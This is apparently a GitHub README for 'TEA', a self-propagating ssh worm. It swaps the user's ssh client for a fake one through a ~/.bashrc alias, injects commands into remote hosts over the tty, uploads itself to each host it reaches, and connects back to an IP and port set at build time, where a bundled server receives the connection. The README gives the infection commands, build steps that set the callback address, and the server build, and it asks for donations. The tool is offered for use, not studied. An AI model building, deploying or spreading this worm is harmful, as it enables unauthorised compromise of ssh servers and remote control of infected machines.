 TEA
===

A ssh-client worm made with [tas framework](https://github.com/hc0d3r/tas).

How it works?
-------------

This is a fakessh-client that manipulates the tty input/output to execute arbitrary commands and upload itself through the ssh connection.

To work properly, the remote machine needs:

* display the "Last login" message when login.
* dd and stty
* target user using bash as default shell.
* capability to run the fakessh binary.
* writable ~/.bashrc

**Infect the local machine**:
```bash
mkdir ~/.sshworm
cp ssh ~/.sshworm
alias ssh='~/.sshworm/ssh'
```

The first time that you execute the fakessh, it will display nothing, the code in ```post-install.c``` will be executed and the string ```alias ssh="~/.sshworm/ssh"``` will be write to the ~/.bashrc:

```bash
$ ssh
$ ssh
usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]
           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]
           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]
           [-i identity_file] [-J [user@]host[:port]] [-L address]
           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]
           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]
           [-w local_tun[:remote_tun]] destination [command]
```

**Spread the world**

Now just connect to some ssh server, that meets the conditions stated for the program to work, and the machine will be infected, and the machines accessed through it too, and so on.

**tty manipulation**:

When the fakessh is executed, it will wait for the string "Last login" to start the I/O manipulation (output-hooks.c), when "Last login" is receveid it will send some arbitrary commands (inject-cmd.c) and will wait for the command result (output-hooks.c), if the file ~/.sshworm/ssh don't exists in the remote machine, then the worm will upload itself (upload.c).

See output-hooks.c for more details.

**Uninstall**:
```bash
$ rm -rf ~/.sshworm
$ perl -i -pe 's;alias ssh="~/.sshworm/ssh";;g' ~/.bashrc
$ unalias ssh
```

Compile
-------

I recommend the use of [musl-libc](https://www.musl-libc.org/how.html), or every else libc that isn't the glibc, the binary compiled using the glibc is 17 times bigger than the binary compiled using the musl-libc.

**Getting the source code**:
```bash
$ git clone --recurse-submodules https://github.com/hc0d3r/tea
```

**Build options**:

| Name    | Description            |
| ------- | ---------------------- |
| IP      | remote IPv4 to connect |
| PORT    | remote port to connect |

**Example**:
```bash
$ make CC=musl-gcc IP=my-ipv4 PORT=1234
```

Server
------
I made a simple server to handle the connections that will be receveid when the
code in post-install.c is executed.

The server mechanism is very simple, when a new connection is established, it execute a new command and pass the connection file descriptor through the command line, so the program executed will be able to handle the connection.

**Compile**
```bash
$ cd server
$ make
cc -Wall -Wextra -O3 -c net.c -o net.o
cc -Wall -Wextra -O3 -c replace.c -o replace.o
cc -Wall -Wextra -O3 -c term.c -o term.o
cc -Wall -Wextra -O3 -c main.c -o main.o
cc -Wall -Wextra -O3 -o server net.o replace.o term.o main.o
```

Demo
----
[![TEA - sshworm](http://img.youtube.com/vi/vbnD4LfJRow/0.jpg)](https://youtu.be/vbnD4LfJRow)

Contributing
------------
You can help with code, or donating money.
If you wanna help with code, use the kernel code style as a reference.

Paypal: [![](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=RAG26EKAYHQSY&currency_code=BRL&source=url)

BTC: 1PpbrY6j1HNPF7fS2LhG9SF2wtyK98GSwq
